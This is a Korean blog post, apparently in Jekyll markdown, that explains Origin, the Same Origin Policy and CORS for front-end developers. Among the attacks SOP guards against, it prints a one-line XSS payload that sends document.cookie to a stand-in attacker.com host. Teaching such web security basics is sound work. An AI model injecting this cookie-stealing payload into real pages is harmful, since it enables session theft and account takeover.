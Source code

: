 ```yaml
---
layout: post
title: CORS란?
author: balancelife
date: 2025-04-11 01:17:00 +0900 
categories: [CORS]
banner:
  opacity: 0.618
  background: "#000"
  height: "100vh"
  min_height: "38vh"
  heading_style: "font-size: 4.25em; font-weight: bold; text-decoration: underline"
  subheading_style: "color: gold"
tags: [CORS]
---
```


## CORS란?
CORS는 Cross-Origin Resource Sharing 교차 출처 자원 공유 라고 하는데 이를 이해하기 위해서 먼저 **origin** 이라는 것과 **SOP** 라는 것을 알아보자.

### Origin

우리가 어떤 사이트에 접속하고자 할 때 우리는 URL이라는 문자열을 통해 접근한다.
![](https://velog.velcdn.com/images/balancelife99/post/56c313b0-13c8-4bdf-9662-ef42d1b3dc94/image.png)

이 때 이 URL에서 Path와 Query string, Fragment라는 것을 제외한 protocol, host, port 의 영역을 Origin 이라고 한다!

### SOP
#### 자 그럼 SOP란 무엇이고 왜 알아야하냐?

SOP 는 Same Origin Policy 인데
CORS에 Cross Origin ... 과 반대 개념이라는 것을 알 수 있다
Same Origin <-> Cross Origin

-> SOP는 동일한 Origin 인 놈들끼리만 리소스를 공유할 수 있다! 라는 정책이다.

그렇다면 이 SOP가 필요한 이유가 뭘까?

### SOP 존재 이유

동일한 Origin 을 가진 URL들끼리만 리소스를 공유할 수 있지 않다면 우리는 보안적으로 취약해진다.

공격받을 수 있는 방법으로는 다음과 같은 방법들이 있다.


1. **크로스 사이트 스크립팅 (XSS)**:
   - 공격자가 웹 페이지에 악의적인 스크립트를 삽입하고, 이 스크립트가 다른 사용자의 브라우저에서 실행되게 함으로써 사용자의 쿠키를 탈취할 수 있습니다.
   - 예: `<script>document.location='http://attacker.com/cookie?'+document.cookie;</script>`

2. **크로스 사이트 요청 위조 (CSRF)**:
   - 사용자가 로그인한 상태에서 악의적인 웹페이지나 이메일을 통해 공격자가 조작한 요청을 서버에 보내게 함으로써 사용자의 의도와는 무관하게 중요한 작업을 수행하게 합니다.
   - 예: 사용자가 은행 서비스에 로그인한 상태에서 CSRF 공격을 받아 무심코 자신도 모르는 사이에 송금을 실행할 수 있습니다.

3. **세션 하이재킹 (Session Hijacking)**:
   - 공격자가 사용자의 세션 ID를 탈취하여 그 사용자로서 서버에 접속하고 서버는 공격자가 실제 사용자인 것처럼 인식합니다.

고로 SOP는 이렇게 우리를 악의적인 스크립트를 실행하지 않도록 지켜주는 소중한 녀석이었는데 웹이 발전하면서 우리는 다른 Origin을 가진 URL과도 통신을 해야했다.

그래서 등장한것이 CORS 이다.

---

### CORS
다시 CORS 를 봐보자.
Cross Origin Resource Sharing
즉 다른 Origin 을 가진 URL끼리도 리소스를 공유할 수 있게 해주는, 사실은 에러가 난다고 싫어할게 아니라 허용해주는 해결책인 착한놈이었다.
~~CORS야 미안해~~

즉  SOP 정책을 위반해도 CORS 정책에 따르면 다른 출처의 리소스라도 허용할 수 있는게 된다.

### 어떻게?

CORS 설정을 하려면 서버에서 Access-Control-Allow-Origin 헤더에 허용할 출처를 기재해서 클라이언트에 응답해야 한다. 
즉, 백엔드 개발자가 고쳐야될 부분이다.


#### 끝으로
CORS 가 무엇인지 대강은 알고, 백엔드 개발자가 해결해줘야 하는 부분이라는 점을 알고 한시름 놓게 되었지만 CORS가 작동하는 방식에 3가지 시나리오가 있다.

여기까지는 FE개발자라도 알아놓아야 한다니 다음 번에 CORS 작동방식에 대해 다뤄보겠다!


